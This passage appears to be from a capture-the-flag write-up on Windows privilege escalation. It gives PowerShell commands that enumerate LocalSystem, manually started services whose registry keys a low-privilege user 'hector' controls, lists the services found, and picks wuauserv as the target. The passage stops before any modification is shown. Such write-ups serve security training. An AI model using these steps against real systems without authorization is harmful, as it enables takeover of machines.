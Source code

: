 This lists all permission for every user and _hector_ has _FullControl_ in the registry for the services, so a service that runs as _SYSTEM_ can be abused to escalate privileges.

Getting into the registry:
```
cd HKLM:

cd SYSTEM\CurrentControlSet\Services

Get-ChildItem
```

Searching for services that run as _SYSTEM_:
```
$services = Get-ItemProperty -Path HKLM:\System\CurrentControlSet\Services\*

$services | select ObjectName

$services | where { ($_.ObjectName -match 'LocalSystem') }
```

Searching for services that start up manually [(field number 3)](https://docs.microsoft.com/en-us/dotnet/api/system.serviceprocess.servicestartmode?view=dotnet-plat-ext-5.0):
```
$services | where { ($_.ObjectName -match 'LocalSystem') -and ($_.Start -match '3') }
```

Searching for services where _hector_ has permissions to start:
```
$filtered = $services | where { ($_.ObjectName -match 'LocalSystem') -and ($_.Start -match '3') }

$names = $filtered.PSChildName

$canStart = foreach ($service in $names) { $sddl = (cmd /c sc sdshow $service); if ($sddl -match "RP[A-Z]*?;;;AU") { $service } }
```

The variable _$canStart_ now contains all services that are run by _LocalSystem_, start up manually and the user _hector_ can start:
```
ConsentUxUserSvc
DevicesFlowUserSvc
PimIndexMaintenanceSvc
PrintWorkflowUserSvc
seclogon
UnistoreSvc
UserDataSvc
WaaSMedicSvc
wuauserv
```

I will use the _wuauserv_ service, which is the **Windows Update** process.

Displaying properties of service:
```
Get-Item wuauserv
```
```
(...)
ImagePath  :  C:\Windows\system32\svchost.exe -k netsvcs -p
(...)
```
